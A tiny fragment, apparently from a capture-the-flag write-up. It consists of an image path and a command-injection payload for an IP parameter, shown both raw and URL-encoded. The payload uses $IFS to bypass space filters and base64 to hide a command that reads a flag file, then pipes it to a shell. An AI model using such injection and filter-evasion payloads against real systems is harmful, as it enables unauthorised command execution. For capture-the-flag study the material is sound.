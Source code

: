 127.0.0.1;echo$IFS$9Y2F0IGZsYWcucGhw|base64$IFS$9-d|sh

 [http://xxx/?ip=127.0.0.1%3Becho%24IFS%249Y2F0IGZsYWcucGhw%7Cbase64%24IFS%249-d%7Csh]

